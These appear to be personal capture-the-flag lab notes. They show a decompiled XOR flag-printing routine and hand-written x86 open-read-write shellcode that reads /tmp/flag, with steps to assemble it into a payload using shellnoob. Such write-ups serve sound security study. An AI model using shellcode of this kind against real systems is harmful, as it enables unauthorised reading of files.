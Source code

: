 #lab1

ida
d键设置变量类型db，*键设置数组长度0x30+1
f5:

```

unsigned int get_flag()
{
  int buf; // [esp+8h] [ebp-80h]
  int v2; // [esp+Ch] [ebp-7Ch]
  unsigned int i; // [esp+10h] [ebp-78h]
  int fd; // [esp+14h] [ebp-74h]
  char v5[49]; // [esp+19h] [ebp-6Fh]
  char v6[49]; // [esp+4Ah] [ebp-3Eh]
  unsigned int v7; // [esp+7Ch] [ebp-Ch]

  v7 = __readgsdword(0x14u);
  strcpy(v6, "Do_you_know_why_my_teammate_Orange_is_so_angry???");
  v5[0] = 7;
  v5[1] = 59;
  v5[2] = 25;
  v5[3] = 2;
  v5[4] = 11;
  v5[5] = 16;
  v5[6] = 61;
  v5[7] = 30;
  v5[8] = 9;
  v5[9] = 8;
  v5[10] = 18;
  v5[11] = 45;
  v5[12] = 40;
  v5[13] = 89;
  v5[14] = 10;
  v5[15] = 0;
  v5[16] = 30;
  v5[17] = 22;
  v5[18] = 0;
  v5[19] = 4;
  v5[20] = 85;
  v5[21] = 22;
  v5[22] = 8;
  v5[23] = 31;
  v5[24] = 7;
  v5[25] = 1;
  v5[26] = 9;
  v5[27] = 0;
  v5[28] = 126;
  v5[29] = 28;
  v5[30] = 62;
  v5[31] = 10;
  v5[32] = 30;
  v5[33] = 11;
  v5[34] = 107;
  v5[35] = 4;
  v5[36] = 66;
  v5[37] = 60;
  v5[38] = 44;
  v5[39] = 91;
  v5[40] = 49;
  v5[41] = 85;
  v5[42] = 2;
  v5[43] = 30;
  v5[44] = 33;
  v5[45] = 16;
  v5[46] = 76;
  v5[47] = 30;
  v5[48] = 66;
  fd = open("/dev/urandom", 0);
  read(fd, &buf, 4u);
  printf("Give me maigc :");
  __isoc99_scanf("%d", &v2);
  if ( buf == v2 )
  {
    for ( i = 0; i <= 0x30; ++i )
      putchar((char)(v5[i] ^ v6[i]));
  }
  return __readgsdword(0x14u) ^ v7;
}

```
#lab2

kali 2017.2 x64 添加32位支持

```
echo "deb http://mirrors.ustc.edu.cn/kali kali-rolling  main non-free contrib" > /etc/apt/sources.list

dpkg --add-architecture i386

apt-get update

apt-get install lib32z1 lib32ncurses5

```

orw=open,read,write
shellcode sc.asm:

```
        jmp file
open :
        pop ebx
        xor eax,eax
        mov al,5
        xor ecx,ecx
        int 0x80


        mov ebx,eax
        mov al,3
        mov ecx,esp
        mov dl,0x30
        int 0x80

        mov al,4
        mov bl,1
        mov dl,0x30
        int 0x80

        xor eax,eax
        inc eax
        int 0x80

file :
        call open
        db '/tmp/flag',0x0
```

工具[shellnoob](https://github.com/reyammer/shellnoob)

snoob --intel --from-asm sc.asm --to-bin

note:

默认ATT，所以加上--intel,汇编最后一句db...去掉，会报错。
使用cat sc.bin | disasm检查
最后的shellocde为open('sc.bin').read()+'/tmp/flag\x00'
